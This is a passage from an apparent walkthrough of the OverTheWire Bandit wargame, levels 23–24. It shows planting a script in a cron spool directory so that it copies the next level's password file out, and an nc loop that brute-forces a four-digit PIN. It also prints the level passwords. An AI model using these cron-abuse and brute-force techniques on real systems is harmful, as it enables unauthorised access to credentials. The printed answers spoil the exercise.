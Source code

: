 ```sh
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done


$ mkdir /tmp/goingto24
$ chmod 777 /tmp/goingto24
$ cd /tmp/goingto24
$ vim test.sh

#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/goingto24/contents.txt

$ chmod 777 test.sh
$ cp test.sh /var/spool/bandit24/
```

Wait for one minute for the cronjob to run

```sh
$ ls
contents.txt  test.sh
$ cat contents.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Answer - [UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ][dill]

### Level 24

In the home directory execute-

```sh
$ mkdir /tmp/goingto25
$ cd /tmp/goingto25
$ vim test.sh

#!/bin/bash

pass=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
for i in {0000..9999}; do
   if
      echo "$pass $i" | nc localhost 30002 | grep Wrong > /dev/null;
   then
      echo $i;
   else
      echo "$pass $i" | nc localhost 30002 && exit;
   fi
done

$ chmod 777 test.sh
$ ./tesh.sh
Correct!
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
